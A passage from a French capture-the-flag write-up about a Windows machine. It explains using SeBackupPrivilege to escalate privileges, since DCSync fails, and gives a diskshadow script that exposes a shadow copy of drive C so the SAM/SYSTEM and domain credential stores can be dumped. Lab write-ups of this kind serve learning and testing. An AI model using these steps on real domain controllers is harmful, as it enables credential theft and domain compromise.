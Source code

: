 Mais le DCSync ne fonctionne pas. L'utilisateur dispose des privilèges `SeBackupPrivilege`, ce qui veut dire que l'on peut récupérer la base SAM et SYSTEM et dump les hash localement

On peut voir à la racine un fichier `notes.txt` qui nous explique que le flag root.txt a été chiffré

![](img/notes-pe.png)

On peut utiliser cet [article](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) pour PE, notamment la partie `Exploiting Privilege on Domain Controller (Method 1)`

On commence par créer un fichier luks.dsh et on utilise unix2dos

```
vim luks.dsh
set context persistent nowriters
add volume c: alias luks
create
expose %luks% z:
unix2dos luks.dsh
```

![](img/pe-dsh-luks.png)
